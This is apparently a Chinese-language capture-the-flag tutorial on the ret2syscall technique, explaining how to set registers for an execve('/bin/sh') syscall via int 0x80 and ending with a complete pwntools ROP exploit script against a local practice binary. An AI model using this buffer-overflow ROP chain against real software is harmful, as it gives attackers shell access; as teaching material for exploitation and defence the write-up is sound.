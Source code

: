 # ret2syscall



## int80中断

linux x86提供了一个内中断程序，子程序编号11（0xb），该子程序的作用为调用execve函数



int execve(const char *path, char *const argv[], char *const envp[]);

这个函数的作用是执行一个程序，而/bin/sh其实也是属于linux中的一个程序，所以我们可以通过触发int 80中断，通过execve函数来调用/bin/sh从而获得shell权限。



## evecve参数传递

- 系统调用号，即 eax 应该为 0xb
- 第一个参数，即 ebx 应该指向 /bin/sh 的地址，其实执行 sh 的地址也可以。
- 第二个参数，即 ecx 应该为 0
- 第三个参数，即 edx 应该为 0

注意：ebx、ecx、edx分别对应execve函数中的path、argv、envp参数，其中path参数指定执行的程序，所以将此设置为"/bin/sh"字符串的首地址，至于其他两个参数是可选的，直接设为NULL（0）



## 构造payload

### 计算get(esp+0x1c)至返回地址的字节数，用垃圾数据进行填充

![image-20231111145940851](images/ret2syscall.assets/image-20231111145940851.png)



### 找到pop eax ; ret

![image-20231111150159964](images/ret2syscall.assets/image-20231111150159964.png)



### 找到pop edx ; pop ecx ; pop ebx ; ret

![image-20231111150259556](images/ret2syscall.assets/image-20231111150259556.png)



### 找到 int 0x80

![image-20231111150426723](images/ret2syscall.assets/image-20231111150426723.png)



### 找到 "/bin/sh" 字符串

![image-20231111150524757](images/ret2syscall.assets/image-20231111150524757.png)



### 完整payload

```python
#!/usr/bin/env python
from pwn import *

sh = process('./ret2syscall')


eax = p32(0xb)
ebx = p32(0x080be408) # shell string /bin/sh
ecx = p32(0)
edx = p32(0)

int80_addr = p32(0x08049421)
eax_addr = p32(0x080bb196)
edx_dcx_ebx_addr = p32(0x0806eb90)

#payload =  b"A" * 112 + eax_addr + eax + edx_dcx_ebx_addr + edx + ecx + ebx + int80_addr

payload = b"A" * 112 + p32(0x080bb196) + p32(0xb) + p32(0x0806eb90) + p32(0) + p32(0) + p32(0x080be408) + p32(0x08049421)

sh.sendline(payload)
sh.interactive()
```

